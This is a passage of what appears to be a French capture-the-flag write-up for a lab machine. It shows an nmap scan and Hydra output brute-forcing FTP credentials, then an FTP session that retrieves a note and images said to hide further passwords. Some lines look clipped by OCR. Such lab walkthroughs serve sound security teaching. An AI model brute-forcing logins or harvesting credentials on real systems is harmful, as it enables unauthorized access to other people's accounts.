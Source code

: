 ```sudo nmap -sS -sV 10.10.243.133 -o nmap.txt
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-26 04:55:44
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ftp://10.10.243.133:21/
[STATUS] 68.00 tries/min, 68 tries in 00:01h, 14344331 to do in 3515:47h, 4 active
[STATUS] 68.33 tries/min, 205 tries in 00:03h, 14344194 to do in 3498:36h, 4 active
[21][ftp] host: 10.10.243.133   login: chris   password: crystal
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-26 04:59:22```

```[21][ftp] host: 10.10.243.133   login: chris   password: crystal```

FTP_Creds : chris:crystal

## Zip file password 

On se connecte au ftp avec les creds 

on remarque un fichier spécifique : 

```ftp> ls
229 Entering Extended Passive Mode (|||56807|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
226 Directory send OK.```

On le récupère pour l'ouvrir : 

```tp> get To_agentJ.txt
local: To_agentJ.txt remote: To_agentJ.txt
229 Entering Extended Passive Mode (|||12605|)
150 Opening BINARY mode data connection for To_agentJ.txt (217 bytes).
100% |***********************************************************************************************************************************************************************************************|   217       84.46 KiB/s    00:00 ETA
226 Transfer complete.
217 bytes received in 00:00 (7.14 KiB/s)```

```at To_agentJ.txt 
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C```

On comprends que d'autres creds sont cachés dans une photo cachée :
On récupère les 2 autres images :

```ftp> get cute-alien.jpg
local: cute-alien.jpg remote: cute-alien.jpg
229 Entering Extended Passive Mode (|||7885|)
150 Opening BINARY mode data connection for cute-alien.jpg (33143 bytes).
100% |***********************************************************************************************************************************************************************************************| 33143        0.98 MiB/s    00:00 ETA
226 Transfer complete.
33143 bytes received in 00:00 (544.42 KiB/s)
ftp> get cut
cute-alien.jpg  cutie.png
ftp> get cutie.png
```